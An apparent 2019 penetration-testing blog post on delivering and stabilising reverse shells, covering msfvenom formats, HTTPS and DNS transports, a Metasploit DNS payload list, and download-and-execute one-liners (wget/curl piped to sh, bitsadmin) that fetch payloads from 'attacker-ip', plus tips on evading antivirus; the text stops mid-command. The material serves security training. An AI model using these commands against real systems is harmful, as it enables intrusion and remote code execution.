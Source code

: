 ```yaml
---
layout: "single"
title: "Pop all the shells: A guide for hackers living off the land"
date: "2019-03-23 14:16"
author_profile: true
toc: true
---
```


{% include figure image_path="/images/posts/heart-shells.png" type=center %}

During my OSCP Journey series, I mentioned a few pitfalls I experienced, primarily surrounding how to deliver, execute, and maintain stable shells throughout the test. I have also taken note that actually getting shells to execute during real-world pentests has grown a lot more difficult as AV solutions and heuristic detection of malware has slowly begun to grow more effective. Such is the way with this cat and mouse game we play with blue-teamers and Antivirus vendors.

However, there still remain some tried and true methods to obtaining shells on modern operating systems that are always going to be hard to stop completely. The trick to getting stable shells is by keeping things simple and using the native, built-in tools that the OS provides us with. You see, AV has to walk a very thin tight-rope between failing to detect malware and blocking legitimate activity. In a lot of ways, their job is several orders of magnitude more difficult than attackers because we only need to find one gap. They have to find both the gap and make sure they can positively identify a malicious action without completely blacklisting it wholesale in a way that blocks legitimate activity and frustrates the user.

Without further ado, here is a list of my choice methods for **delivering**, **executing**, and **stabilizing** shells and backdoors.

## Payload Preparation

Knowing your target environment is the first step. As always, having good information on your target comes before the exciting part of actually breaking into something. Thankfully, the fine folks at Rapid7 and the predecessor developers that gave us the Metasploit Framework provided us with metasploit's sidekick, msfvenom.

### Shell Formats

`msfvenom --help-formats` will quickly drop a list of the different valid types of shells you should be familiar with. The [Metasploit Unleashed](https://www.offensive-security.com/metasploit-unleashed/) tutorial from OffSec is a good reference, but I'll quickly break down the types of shell formats that are the most reliable and useful during your labs.

* `raw` - Use this for getting the raw shell source-code based on the payload you choose. ie: `php/reverse_php` will give you raw php source code. `perl/reverse_tcp` will give you a raw perl reverse shell script, and so on. Useful for arbitrary PHP upload vulnerabilities, and also for executing a shell via a local script interpreter.
* `dll` - My personal favorite for Windows execution is reflective DLL injection. Windows DLLs are flexible and can be easily injected directly into memory for reliable shell execution, and it automatically is executed in the background as a separate process, which all but guarantees a stable shell.
* `elf/exe` - Executable binaries for Linux/Windows respectively are very useful and are reliable even in the absence of scripting languages or special privileges. Ordinarily this would run the risk of setting off AV, but we're not worried about that here.
* `java/perl/python/ruby/etc` - Normally reserved for exploit development, these language-specific payloads are also applicable, particularly in certain web applications where native code execution can occur. Every now and again, you may find some magical interpreter built into the application. These methods give you the raw bytecode, so to execute it will require the native execution method for that specific language to call the bytecode directly.
* `psh-cmd` - Create a powershell one-liner with this handy format.
* `war` - The unassuming "war" file is a java-based executable that commonly accompanies web applications and automation services like those you find on Jenkins and JBoss instances.

### Shell Transports

Transport methods are how the session will be set up once the shell executes. The most common one is raw TCP, which can often be the most reliable, but is also the lease resilient against AV and especially network monitors and intrusion prevention systems. For those reasons, you'll usually need to make use of encapsulation -- encryption.

**HTTPS** is the most popular for several reasons. HTTP is the most common and most essential type of web-based traffic. It's unlikely to be blacklisted by firewalls, and even if it is filtered, there are usually ways around it. It's also extensible, easy to proxy, and encryption is expected. The only problem you may run into is where next-gen firewalls support **[deep packet inspection](https://en.wikipedia.org/wiki/Deep_packet_inspection) (DPI)** which effectively amounts to [SSL-Stripping](https://blog.checkpoint.com/2016/03/07/targeted-ssl-stripping-attacks-are-real/).

**DNS** transports are less common because they are slow but pretty sneaky when done right. DNS traffic being an essential protocol for normal network operations, DNS is almost never blocked beyond the boundaries of a network. This form of transport works by using this idea to transport communications via DNS request-reply communication over UDP to the attacker's server, acting as an ordinary DNS server.

The only reasonable defense for this is if unapproved DNS servers are blocked by network policies. As you can imagine, this is rarely found in production. The main disadvantage is how slow it is, and that it is an unencrypted protocol; however, with the advent of DNS over SSL, this may change in the future. **[DNSCat](https://wiki.skullsecurity.org/Dnscat)** is currently the most popular standalone tool for this kind of delivery method, but even metasploit has a few of these available

```
msf5 > search type:payload dns

Matching Modules
================

   Name                                                    Disclosure Date  Rank    Check  Description
   ----                                                    ---------------  ----    -----  -----------
   payload/windows/dllinject/reverse_tcp_dns                                normal  No     Reflective DLL Injection, Reverse TCP Stager (DNS)
   payload/windows/dllinject/reverse_tcp_rc4_dns                            normal  No     Reflective DLL Injection, Reverse TCP Stager (RC4 Stage Encryption DNS, Metasm)
   payload/windows/dns_txt_query_exec                                       normal  No     DNS TXT Record Payload Download and Execution
   payload/windows/meterpreter/reverse_tcp_dns                              normal  No     Windows Meterpreter (Reflective Injection), Reverse TCP Stager (DNS)
   payload/windows/meterpreter/reverse_tcp_rc4_dns                          normal  No     Windows Meterpreter (Reflective Injection), Reverse TCP Stager (RC4 Stage Encryption DNS, Metasm)
   payload/windows/patchupdllinject/reverse_tcp_dns                         normal  No     Windows Inject DLL, Reverse TCP Stager (DNS)
   payload/windows/patchupdllinject/reverse_tcp_rc4_dns                     normal  No     Windows Inject DLL, Reverse TCP Stager (RC4 Stage Encryption DNS, Metasm)
   payload/windows/patchupmeterpreter/reverse_tcp_dns                       normal  No     Windows Meterpreter (skape/jt Injection), Reverse TCP Stager (DNS)
   payload/windows/patchupmeterpreter/reverse_tcp_rc4_dns                   normal  No     Windows Meterpreter (skape/jt Injection), Reverse TCP Stager (RC4 Stage Encryption DNS, Metasm)
   payload/windows/shell/reverse_tcp_dns                                    normal  No     Windows Command Shell, Reverse TCP Stager (DNS)
   payload/windows/shell/reverse_tcp_rc4_dns                                normal  No     Windows Command Shell, Reverse TCP Stager (RC4 Stage Encryption DNS, Metasm)
   payload/windows/upexec/reverse_tcp_dns                                   normal  No     Windows Upload/Execute, Reverse TCP Stager (DNS)
   payload/windows/upexec/reverse_tcp_rc4_dns                               normal  No     Windows Upload/Execute, Reverse TCP Stager (RC4 Stage Encryption DNS, Metasm)
   payload/windows/vncinject/reverse_tcp_dns                                normal  No     VNC Server (Reflective Injection), Reverse TCP Stager (DNS)
   payload/windows/vncinject/reverse_tcp_rc4_dns                            normal  No     VNC Server (Reflective Injection), Reverse TCP Stager (RC4 Stage Encryption DNS, Metasm)
```

## Payload Delivery

Depending on the host and the vulnerability you're exploiting, figuring out how to get a shell to the target can be the trickest part, especially if you're limited on payload length or execution methods. Here are the most reliable ways I've been able to quickly deliver my shellcode for a stable shell.

### Web Delivery

Simple web delivery is the most straight-forward method, and you can open up your own HTTP server without having to configure Apache/Nginx, or anything like that. All you need is cd to the directory you want to share with your targets (I usually create a `/tmp/payloads` folder) and serve it with this simple python one-liner.  

```
cd /tmp/payloads
python2 -m SimpleHTTPServer <port>           // default port: 8888
```

Now that you've got your web server running, you need to get your target to download it. With Linux, you have several options:

```
# wget download & pipe to shell
wget -O - http://attacker-ip:8888/payload.sh | sh

# Netcat pipe to file & execute in background
nc attacker-ip:8888/payload.sh > /tmp/payload && /tmp/payload &

# Curl silent download & execute
curl -sL http://attacker-ip:8888/payload.sh | sh
```

Windows is a little less straight-forward, but there are still ample possibilities:

```
# Windows bitsadmin download & execute
cmd.exe /c "bitsadmin /transfer eviljob /download /priority high http://attacker-ip:8888/payload.exe c:\payload.exe & start c:\payload.exe"

# Windows Certutil.exe download a base64-encoded binary
certutil.exe -urlsplit -f


```
